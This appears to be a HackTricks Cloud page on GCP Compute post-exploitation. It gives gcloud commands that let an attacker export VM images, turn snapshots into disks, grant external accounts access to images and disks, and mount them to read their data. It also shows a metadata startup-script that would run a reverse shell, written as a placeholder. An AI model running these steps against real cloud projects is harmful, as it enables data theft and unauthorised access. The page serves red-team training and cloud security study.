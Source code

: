 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (Networking) check:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

* oles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
   *   Create a mount point:

       ```sh
       sudo mkdir -p /mnt/disks/[MOUNT_DIR]
       ```
   *   Mount the disk:

       ```sh
       sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
       ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
